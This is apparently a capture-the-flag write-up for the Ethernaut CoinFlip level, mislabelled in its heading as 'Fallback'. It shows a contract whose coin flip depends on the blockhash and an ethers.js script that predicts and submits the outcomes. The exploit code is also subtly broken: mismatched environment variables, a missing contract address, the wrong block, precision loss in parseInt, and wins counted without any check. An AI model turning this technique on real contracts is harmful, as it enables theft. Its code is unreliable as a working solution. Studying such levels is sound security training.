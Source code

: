 ## Fallback Level Outline

**Difficulty : 3/10**

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008)

## Solution
Because the flip is calculated onchain using the previous blockhash, we can predict what the outcome will be by simulating the coinflip offchain and then submitting the right predition.

This level does not use foundry as it will be solved using a simple [ethersjs](https://docs.ethers.io/v5/) script. **Feel free to contribute if you have a solution using only foundry

### Walkthrough

1. set up a node project
```console
npm init
```

2. install the dotenv and ethersjs package 
```console
npm install ethers
npm install dotenv
```

3. create a `.env` file with the following variables
- `PRIVATE_KEY`
- `NODE_URL`
 
```console
touch .env
ECHO PRIVATE_KEY=<your-private-key-here> >> .env
ECHO NODE_URL=<your-node-url-here> >> .env
```
4. create a `src/coinFlip.js` file to hold our script

```javascript
const ethers = require('ethers');
require('dotenv').config();

const NODE_URL = process.env.RINKERBY;
const PRIVATE_KEY = process.env.PRIVATE_KEY;
const LEVEL_ADDRESS = process.env.LEVEL_ADDRESS;

const provider = new ethers.providers.JsonRpcProvider(NODE_URL);
const wallet = new ethers.Wallet(PRIVATE_KEY);
const signer = wallet.connect(provider);

const FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

const coinFlipContract = new ethers.Contract(
  LEVEL_ADDRESS,
  ["function flip(bool _guess) public returns (bool)"],
  signer
)

let correctFlips = 0;

provider.on('block', async (blockNum) => {
  console.log("blockNum : ", blockNum);
  let blockData = await provider.getBlock(blockNum);
  let blockHash = blockData.hash;
  let blockValue = parseInt(blockHash, 16);
  let coinFlip = Math.floor(blockValue / FACTOR);
  let side = coinFlip == 1 ? true : false;

  const tx = await coinFlipContract.flip(side);
  const promise = tx.wait();
  const receipt = await promise;

  correctFlips++;
  console.log(correctFlips);
})
```

5. run the script that we just created
```console
node src/coinFlip.js
```
